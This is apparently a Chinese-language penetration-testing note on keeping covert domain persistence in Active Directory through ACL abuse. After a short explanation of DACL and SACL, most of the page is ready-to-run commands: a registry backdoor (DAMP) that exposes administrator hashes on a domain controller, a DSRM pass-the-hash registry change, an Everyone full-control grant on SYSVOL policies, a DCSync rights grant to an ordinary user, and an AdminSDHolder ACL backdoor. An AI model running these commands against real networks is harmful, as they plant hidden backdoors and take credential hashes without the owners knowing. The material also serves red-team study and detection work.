





### 通过ACL维持域权限

ACL--访问控制列表。用来表示用户（组）权限的列表，包括DACL和SACL。ACL由访问控制实体（ACE，Access Control Entries）组成，每一个ACE可以看作配置的一条访问策略.

- **DACL**

  DACL列表包含了用户和组的列表，以及相应的权限，允许或拒绝。每一个用户或组在任意访问控制列表中都有特殊的权限。

  DACL是安全对象（securable object） 的一个属性，用来表示 安全对象 的访问权限的列表。

  当一个进程试图访问一个安全对象时，系统会检查该指向的DACL中的ACE

- **SACL**

  System Access Control List，定义对象的访问行为记录策略。



在拥有ACL配置权限的条件下，配置ACL使的普通用户权限也能像高权限一样访问、修改某些对象，从而达到隐蔽维持权限的方法

#### 基于注册表ACL

在域控制器上将hklm的特定键值分配everyone读取权限，可直接读到管理员的hash。可利用[DAMP](https://github.com/HarmJ0y/DAMP)脚本实现。

system权限执行

`Add-RemoteRegBackdoor -ComputerName Ad.CATE4CAFE.com -Trustee 'S-1-1-0' -Verbose`



普通域用户上就可以读取到域控上的本地管理员权限的hash

`Get-RemoteLocalAccountHash -ComputerName ad -Verbose`



此账户hash不允许pth,还需要在域控上修改注册表允许其远程访问

`reg add HKLM\System\CurrentControlSet\Control\Lsa /v DSRMAdminLogonBehavior /t REG_DWORD /d 2`

#### 基于组策略ACL

通过修改组策略文件ACL，使得普通用户具有完全权限，就可以修改组策略模板文件从而修改文件达到权限维持效果。

`cacls C:\Windows\SYSVOL\sysvol\cate4cafe.com\Policies /e /t /c /g "EveryOne":f`

在域机器上便可修改模板文件



修改注册表添加自启动、映像劫持、修改主机账号的委派设置权限SeEnableDelegationPrivilege使得某个用户拥有修改域内所有用户的委派设置从而作为门等。

#### dcsync

向域内的一个普通用户添加如下三条ACE(Access Control Entries)：

```
DS-Replication-Get-Changes(GUID:1131f6aa-9c07-11d1-f79f-00c04fc2dcd2)
DS-Replication-Get-Changes-All(GUID:1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
DS-Replication-Get-Changes(GUID:89e95b76-444d-4c62-991a-0facbeda640c)
```

该用户就可以使用DCSync导出域内用户hash的权限。使用powerview

`Add-DomainObjectAcl -TargetIdentity "DC=cate4cafe,DC=com" -PrincipalIdentity rcoil -Rights DCSync -Verbose`

rcoil用户mimikatz执行dcsync



### AdminSDHolder

同样使用powerview脚本设置

`Add-ObjectAcl -TargetSearchBase "LDAP://CN=AdminSDHolder,CN=System,DC=cate4cafe,DC=com" -PrincipalIdentity rcoil -Rights All -Verbose`

60分钟后该AdminSDHolder就会应用配置的ACL，指定的用户便可以获得对所有受保护帐户和组的完全管理权限。

也可以通过修改注册表来改变ACL刷新时间

`reg add hklm\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v AdminSDProtectFrequency /t REG_DWORD /d 30`